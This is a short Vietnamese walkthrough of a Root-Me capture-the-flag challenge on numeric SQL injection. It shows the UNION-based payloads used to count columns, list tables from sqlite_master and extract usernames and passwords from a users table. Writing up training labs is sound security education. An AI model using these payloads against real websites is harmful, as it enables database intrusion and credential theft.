 ## Link Challenge: [SQL Injection](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)

Lần này ta xác định được câu truy vấn SQL có vấn đề tồn tại ở link tới các blog.

Vẫn sử dụng SQL Injection UNION để kiểm thử website. Không có phần truy vấn nào phía sau `news_id` => không cần giả commment

Check số cột truy vấn cần bằng `SELECT NULL`, ta xác định được có 3 cột thì không trả về lỗi nào.
`UNION SELECT null,null,null`

Tiếp tục kiểm tra table mình cần truy vấn và xác định những cột truy vấn nào sẽ hiện ra màn hình (nhận ra là cột thứ 2 và 3 sẽ hiển thị)

Kiểm tra các table: `UNION SELECT 1, name, sql FROM sqlite_master`

![img1](https://i.imgur.com/2YKAmud.png)

Thấy bảng `users` chứa thông tin về account. Tiếp tục truy vấn UNION
`UNION SELECT 1, password, username FROM users`

![img2](https://i.imgur.com/fMACB8N.png)
DONE!